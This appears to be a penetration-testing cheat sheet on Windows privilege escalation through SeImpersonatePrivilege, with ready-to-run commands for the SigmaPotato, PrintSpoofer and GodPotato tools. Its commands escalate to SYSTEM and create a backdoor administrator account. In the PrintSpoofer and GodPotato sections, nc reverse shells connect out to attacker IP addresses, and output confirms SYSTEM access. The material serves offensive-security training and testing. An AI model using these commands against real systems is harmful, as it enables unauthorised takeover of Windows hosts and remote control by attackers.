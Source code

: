 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**. This privilege is normally assigned to `administrator` accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, `SeImpersonatePrivilege` is often accessible when gaining code execution through services like **IIS**, which commonly run under accounts that have it.

> _**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time._

In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## SigmaPotato

[**SigmaPotato**](https://github.com/tylerdotrar/SigmaPotato) is a tool that leverages a variation of the "potato" attacks to coerce `NT AUTHORITY\SYSTEM` into connecting to a controlled named pipe. If we have `SeImpersonatePrivilege`, SigmaPotato lets us escalate to `SYSTEM`, executing commands or gaining an interactive shell.

{% tabs %}
{% tab title="1. User Creation" %}
{% code overflow="wrap" %}
```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
...
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
...
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
...

User        CLIENTWK220\dave4         Local
```
{% endcode %}
{% endtab %}

{% tab title="2. Command Execution" %}
```powershell
./SigmaPotato.exe <command>
```
{% endtab %}

{% tab title="3. Reverse Shell" %}
```powershell
./SigmaPotato.exe --revshell <ip_addr> <port>
```
{% endtab %}
{% endtabs %}

## PrintSpoofer

{% tabs %}
{% tab title="1. PrivEsc" %}
Escalate to `NT AUTHORITY\SYSTEM` on the same session:

```powershell
PrintSpoofer.exe -i -c cmd
```
{% endtab %}

{% tab title="2. RevShell" %}
Create a new `SYSTEM` process and exit immediately without interacting with it. Suitable for non-interactive cases, e.g. WinRM.

```powershell
PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
```

On the attacking box:

```bash
$ nc -lvpn 1337
...
C:\WINDOWS\system32>whoami
nt authority\system
```
{% endtab %}

{% tab title="3. RDP" %}
&#x20;Spawn a `SYSTEM` command prompt on your desktop, for instance, when logged in via an RDP session.

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp           lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endtab %}
{% endtabs %}

## GodPotato

{% tabs %}
{% tab title="1. PrivEsc" %}
```powershell
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="2. RevShell" %}
```powershell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="SigmaPotato" %}
{% embed url="https://github.com/tylerdotrar/SigmaPotato" %}
{% endtab %}

{% tab title="PrintSpoofer" %}
{% embed url="https://github.com/itm4n/PrintSpoofer?tab=readme-ov-file" %}
{% endtab %}

{% tab title="GodPotato" %}
{% embed url="https://github.com/BeichenDream/GodPotato" %}
{% endtab %}
{% endtabs %}
